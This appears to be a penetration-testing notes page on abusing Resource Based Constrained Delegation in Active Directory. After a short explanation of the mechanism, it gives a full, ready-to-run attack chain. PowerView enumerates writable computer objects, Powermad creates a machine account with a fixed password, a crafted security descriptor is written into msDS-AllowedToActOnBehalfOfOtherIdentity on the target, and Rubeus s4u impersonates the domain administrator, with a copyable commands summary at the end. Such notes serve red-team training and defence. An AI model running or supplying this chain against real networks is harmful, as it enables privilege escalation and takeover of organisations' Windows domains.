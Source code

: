 # Resource Based Constrained Delegation \(RBCD\)

## Resource Based Constrained Delegation \(RBCD\)

RBCD needs to happen from a computer account or a service account with a SPN.  
  
Attack can be done if a frontend service has a SID configured into the msDS- AllowedToActOnBehalfOfOtherIdentity property backend service.  
  
  
**msDSAllowedToActOnBehalfOfOtherIdentity** property controls delegation from the backend service  
  
To turn RBCD on, we need to write the SID frontend into a new propriety of the backend service.  
  
 → SeEnableDelegationPrivilege permissions are not required  
 → RBCD can typically be configured by the backend service administrator instead  
 → the frontend service must have an SPN set in the domain &gt; Computer Account  
  
  
S4U2Self forwardable TGS for any user to itself followed by S4U2Proxy to create a TGS for that user to the backend service.  
  
The KDC checks if the SID of the frontend service is present in the msDS-AllowedToActOnBehalfOfOtherIdentity property of the backend service.

### **Attack Path** 

* Compromise a domain account which have genericwrite on a computer account object.
* Add a new computer machine and force a password on it  \(user can add up to 10 computers by default\)

{% hint style="warning" %}
GenericAll, WriteProperty, GenericWrite or WriteDACL can be used to add change the SID on a computer object
{% endhint %}

Constrained Delegation Requirements :  
  
- Constrained Delegation = SPN on the frontend service \(msDSAllowedToDelegateTo propriety\)  
- SeEnableDelegationPrivilege priv

### Enumeration

#### Find GenericWrite access on a Computer Object

```csharp
 Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

![](../../../../.gitbook/assets/image%20%28105%29.png)

#### Computer Domain Join 

```csharp
 Get-DomainObject -Identity badcorp.local  -Properties ms-DS-MachineAccountQuota
```

![](../../../../.gitbook/assets/image%20%28142%29.png)

### Create a new machine account

#### Load powermad

```csharp
. .\powermad.ps1
New-MachineAccount -MachineAccount fakeComputer -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
```

![](../../../../.gitbook/assets/image%20%28293%29.png)

![](../../../../.gitbook/assets/image%20%285%29.png)

msDS-AllowedToActOnBehalfOfOtherIdentity property stores the SID as part of a security descriptor in a binary format which needs to be converted.

```csharp
$sid =Get-DomainComputer -Identity fakeComputer1 -Properties objectsid | Select -Expand objectsid
```

![](../../../../.gitbook/assets/image%20%28257%29%20%281%29.png)

* Instantiate a SecurityDescriptor object using RawSecurityDescriptor Class:

```csharp
$SecDesc = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
```

![](../../../../.gitbook/assets/image%20%28102%29.png)

* convert it into a byte array to match the format for the msDS-AllowedToActOnBehalfOfOtherIdentity property:

```csharp
$sdFormat = New-Object byte[] ($SecDesc.BinaryLength)
$SecDesc.GetBinaryForm($sdFormat,0)
```

#### Abuse GenericWrite on the target server

```csharp
 Get-DomainComputer -Identity targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$sdFormat}
 $RBCD  = Get-DomainComputer targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
 $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCD, 0
 $Descriptor.DiscretionaryAcl
```

![](../../../../.gitbook/assets/image%20%28118%29.png)

### Get a TGS using the fakeComputer account

#### Rubeus

```csharp
.\Rubeus.exe hash /password:Password123
.\Rubeus.exe s4u /user:fakeComputer /rc4:58A478135A93AC3BF058A5EA0E8FDB71  /impersonateuser:administrator /msdsspn:CIFS/targetServer.test.lab.local /ptt
```

![](../../../../.gitbook/assets/image%20%28246%29.png)

###  Commands summary

```csharp
New-MachineAccount -MachineAccount polo1 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
Get-DomainComputer -Identity polo1
$sid =Get-DomainComputer -Identity polo1 -Properties objectsid |Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)
Get-DomainComputer -Identity TARGETSERVER | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
$RBCDbytes = Get-DomainComputer polo1 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0
$Descriptor.DiscretionaryAcl
```

### Resources

{% embed url="https://github.com/Kevin-Robertson/Powermad" %}

{% embed url="https://github.com/GhostPack/Rubeus" %}







